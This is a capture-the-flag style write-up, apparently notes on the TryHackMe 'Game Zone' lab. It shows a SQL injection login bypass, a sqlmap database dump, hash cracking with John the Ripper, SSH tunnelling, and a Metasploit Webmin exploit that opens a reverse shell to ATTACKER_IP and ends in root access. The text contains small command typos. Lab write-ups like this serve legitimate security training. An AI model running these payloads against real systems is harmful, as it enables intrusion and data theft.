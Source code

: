 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper (JTR)
* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.
#### Use JTR to crach hash gained above
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA246
```
  * `hash.txt` contains list of hashes to crack.
  * `--wordlist` is list to use to find dehashed value.
  * `--format` is hashing algorithm to use.
## Expose Services with Reverse SSH Tunnels
* Reverse SSH port forwarding specifies that given port on remote host should be forwarded to local host and port.
![cYZsC8p](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/46543e83-ed0e-421c-a78c-4e88f5a18315)
* `-L` is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work
```
ssh -L 9000:imgur.com:80 user@example.com
```

    * Browse to "localhost:9000" to load imgur traffic using other server.
* `-R` is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.
#### Use ss tool to investigate sockets running on host
```
ss -tulpn
```

| Argument | Description
| --- | ---
| `-t` | Display TCP sockets.
| `-u` | Display UDP sockets.
| `-l` | Display only listening sockets.
| `-p` | Show process using the socket.
| `-n` | Do not resolve service names.

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.
```
ssl -L 10000:localhost:10000 agent47@TARGET_IP
```
* Browse to http://localhost:10000 on attack host to access newly-exposed webserver.
## Privilege Escalation with Metasploit
* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.
```
msfconsole
search webmin type:exploit
use exploit/unix/webapp/webmin_show_cgi_exec
set password videogamer124
set rhosts ATTACKER_IP
set username agent47
set ssl no
show payloads
set payload payload/cmd/unix/reverse
set lhost ATTACKER_IP
exploit
```
  * Set RHOSTS to Attack Host due to SSH tunnel created earlier.
  * Set SSL to be false as the SSL tunnel is not running over HTTPS.
```
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo cClA4EYV0eVm9IvA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "cClA4EYV0eVm9IvA\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000
[*] Session 2 created in the background.
```
```
sessions 1
[*] Starting interaction with 1...

whoami
root
```
* Stabilise shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
* Find root flag.
```
cd /
find / -name "root.*" -user root 2>/dev/null
```
